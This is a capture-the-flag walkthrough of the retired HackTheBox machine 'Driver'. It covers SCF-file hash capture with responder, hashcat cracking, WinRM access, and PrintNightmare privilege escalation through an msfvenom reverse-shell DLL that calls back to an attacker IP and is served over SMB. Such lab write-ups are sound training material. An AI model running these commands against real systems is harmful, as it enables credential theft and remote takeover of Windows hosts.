*2021-10-28*

*kimm3*

# Walkthrough: Driver
Platform: HackTheBox

Difficulty: Easy

Uploaded after retirement.
## Setup


```
script history/enum1
export IP=10.10.11.106; ping $IP
```

(Machine responds to ICMP echo)
## Scans and enumeration
`sudo nmap $IP -p- -Pn -v -A -oA scans/nmap-init`



HTTP, SMB and WinRM open.




HTTP-AUTH is active for the site. No credentials gives us no access. Some very default/common credentials gets us into the site.



There's an upload page, '/fw_up.php'. No repsonse when uploading a file - returns to the same page. The text says that it uploads to a share, probably the SMB share.



Access denied without password on SMB.

## Foothold
Did a bunch of directyory searches/web fuzzing to try to find a upload folder, but there's no way to trigger a shell by simply uploading it and trigger it via HTTP. Instead, a SFC attack did the trick:



Upload a file with contents as in the red text. Filename should start with '@' to get displayed at top, and end with '.sfc' extension. Whenever a user opens this in explorer, it will try to get an icon at the address we specified.

Start responder to capture the hash.

`responder -I tun0`





Hash captured and is valid NetNTLMv2, crack it with hashcat:

`hashcat -a 0 -m 5600 creds/tonyhash sl/Passwords/Leaked-Databases/rockyou.txt`



WinRM is enabled on default http port 5985, we can use this to get a shell.





## Further enumeration


Two more users active, Mario and Administrator, they're both in admin group.



Used winPEAS to do further enumeration. The job that probably triggered the sfc file is under tonys appdata folder. Did some further research but decided not to touch so that we don't mess things up for other users.







#### You might have to reset the box
The whole box hints you that the PrintNightmare hack could be possible. However when I checked the 'Spooler' service, which is required, it was stopped and we didn't have privileges to start it, so contiuned to enumerate/research. After some time, I tried to reset the box and checked the Spooler service, and it was running.

The service will stop if someone uses this exploit, if they don't start it manually again, it won't work for other users.



## Privilege Escalation
Tried [this](https://github.com/calebstewart/CVE-2021-1675) first, a ps1 script for printnightmare, but we can't run scripts from our shell.



[This](https://github.com/cube0x0/CVE-2021-1675) might let us do it remotely with SMB. Follow the steps in the readme.



Check if exploit is possible.

Start SMB-server of choice, hosting a dll reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 -f dll -o upload/glhf.dll
smbserver.py -ip 10.10.14.4 -port 445 upload upload
```



Check if server is working properly, and run exploit:

```
nc -lvnp 443
python3 upload/CVE-2021-1675/CVE-2021-1675.py tony:liltony@10.10.11.106 '\\10.10.14.4\upload\glhf.dll'
```





The error and server output is normal and the revshell will work.



We got system and root flag.

## Comments
To get consistency on box(and be polite to other users if shared) start Spooler service again after you get a SYSTEM shell.





Service stopped after exploit, no output from rpcdump.py.





Started service, and it's responding again.
